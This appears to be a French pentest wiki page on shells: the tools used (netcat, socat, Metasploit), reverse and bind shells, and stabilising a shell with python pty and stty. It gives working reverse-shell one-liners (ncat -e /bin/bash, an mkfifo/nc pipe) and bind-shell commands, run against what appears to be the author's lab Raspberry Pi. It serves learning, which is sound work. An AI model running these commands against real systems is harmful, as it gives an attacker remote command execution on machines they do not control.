
Un shell est une interface homme machine en ligne de commande.

## __Outils__

Pour mettre en place des reverses shells, on a une mutltitude d'outils disponible.

### Netcat

**[Netcat](Binaries##__Linux__###x86-64####Ncat)** peut être utilisé pour effectuer beaucoup de choses comme du **banner grabbing** pendant des énumérations. Mais l'usage principal qu'on va en faire est de **pouvoir recevoir une connection** depuis un port.

### Socat

**[Socat](Socat)** peut faire **tous ce que Netcat peut faire** mais aussi **beaucoup d'autres choses**. Les shells socat sont **plus stable** que les shells Netcat.

Les 2 problèmes de socat comparé à Netcat sont :
- La syntaxe est **plus difficile**
- Netcat est installé sur pratiquement toutes les distributions Linux par défaut. Socat est **très rarement installé** par défaut.

### Metasploit multi/handler

C'est le module **`exploit/multi/handler`** de metasploit, il a les **mêmes fonctionnalités** que Netcat ou Socat mais c'est le seul moyen d'intéragir avec un **shell meterpreter** et de gérer des **payloads metasploit**.

### Msfvenom

**[Msfvenom](Metasploit_Msfvenom)** fait aussi partie de msf - metasploit framework, mais c'est un **outil indépendant**. Il est utilisé pour créer des payloads et **aussi des reverses shell**.

### Autres

On peut **[créer des reverses shell pour des langages de programation en particulier ou pour un os particulier](Reverse_shell##__Scripts__)**.


## __Types de shell__

### Reverse shell

Un **reverse shell** est ce qui se produit quand une cible **éxécute un code qui connecte un shell à notre machine** (***`/bin/bash`* sur linux** et ***`cmd.exe`* sur windows**). L'avantage d'un reverse shell est qu'on **contourne les règles des firewalls**, cependant le problème est qu'on est obligé de notre coté de **configurer notre réseau pour accepter ce shell**.

#### 1- Mise en place du listener

Notre machine

```shell
user@ip:~$ sudo ncat -lvnp 443
Listening on 0.0.0.0 443
```

#### 2- Execution du script

Machine cible

```shell
user@raspberrypi: ~$ ncat <NOTRE-IP> <PORT> -e /bin/bash
```
ou
```shell
user@raspberrypi: ~$ mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
si ncat ne prends pas `-e`

#### 3- Execution de commande sur la machine cible

Notre machine

```shell
Connection received on 192.168.1.104 47512
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos
```

### Bind shell

Un **blind shell** est ce qui se produit quand une cible va **démarrer un listener** attaché à un shell. Ce **port** est alors **ouvert** et on peut s'y connecter et obtenir l'execution du shell. L'avantage est qu'**on a aucune configuration à faire sur notre réseau** mais il peut être **empeché par des firewalls**.

#### 1- Lancement du serveur netcat

Machine cible

```shell
user@raspberrypi:~$ ncat -vnlp <PORT> -e /bin/bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4433
Ncat: Listening on 0.0.0.0:4433
Ncat: Connection from 192.168.1.100.
Ncat: Connection from 192.168.1.100:57085.
```
ou
```shell
user@raspberrypi:~$ mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
si ncat ne prends pas `-e`

#### 2- Connection au port

Notre machine

```shell
user@ip:~$ ncat <IP-CIBLE> <PORT>
ls
Bookshelf
Desktop
Documents
Downloads
Music
Pictures
pi-rfid
prog.py
Public
script.py
script.py.save
Templates
Videos

```

### Interactive shell

Un **shell interactif** est un shell ou une **action utilisateur est requise**. 

![[shell-interactif.png]]

Ici, on peut utiliser la commande **ssh** car **on peut répondre à l'interaction**.

### Non Interactive shell

Un **shell non interactif** n'offre **pas** le luxe des shells *interactif*.

![[shell-non-interactif.png]]

On peut utiliser la commande **whoami** car elle **n'est pas interactive** mais **pas la commande ssh**.


## __Stabilisation__

Lorsque l'on a un shell sur une machine, **plusieurs problèmes** s'expose :

- On ne peut **pas utiliser les flèches**.
- On ne peut **pas utiliser la tabulations**.
- Un simple **CTRL + C tue tout notre shell**.

Pour palier ces problèmes on doit le stabiliser.

### Python

Comme python est installé dans la plupart des machines on peut l'utiliser pour stabiliser notre shell.

#### 1- Embélissement

Une fois dans notre shell la première commande à executer est **`python -c 'import pty;pty.spawn("/bin/bash")'`**.
Cela rendra notre shell **plus beau** mais les touches comme les flèches et les tabulations ne nous serront toujours pas accessible, tout comme le problème du CTRL + C.

```shell
user@ip:~$ ncat 192.168.1.104 4433
whoami
root

python3 -c 'import pty;pty.spawn("/bin/bash")'
root@raspberrypi:/home/user#
```

#### 2- Commande de terme

Pour acceder aux **commandes de termes** comme `clear`, on doit executer la commande **`export TERM=xterm`**.

```shell
root@raspberrypi:/home/user# export TERM=xterm
export TERM=xterm
```

#### 3- Acces aux touches

Pour retirer les problèmes principaux, on va d'abord mettre notre **shell en arrière plan** en utilisant ***CTRL + Z***.
**Une fois dans notre terminal** on va executer la commande **`stty raw -echo; fg`** qui va **désactiver notre propre echo** et donc **donner accès aux touches et à l'auto-completion** puis remettre en premier plan notre shell.

```shell
root@raspberrypi:/home/user# ^Z
[1]+  Stopped                 ncat 192.168.1.104 4433
user@ip:~$ stty raw -echo; fg
ncat 192.168.1.104 4433

root@raspberrypi:/home/user# ^C
root@raspberrypi:/home/user#
```


### Taille du terminal

Pour **regler la taille du terminal** on va utiliser **`stty`**.

D'abord il faut **connaitre la taille de notre vrai terminal**. Pour cela il faut **ouvrir un autre terminal** et effectuer la commande **`stty -a`**.

```shell
claquetteuuuh@DESKTOP-PC1BC1G:~$ stty -a
speed 38400 baud; rows 30; columns 120; line = 0;
```

On peut ici voir les attributs **rows** et **columns**.

On va ensuite régler notre shell avec ces attributs. Pour cela on va executer dans notre reverse shell les commandes
**`stty rows <number>`** et **`stty cols <number>`**

```shell
root@raspberrypi:/home/user# stty rows 30
root@raspberrypi:/home/user# stty columns 120
root@raspberrypi:/home/user# jjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjj
```

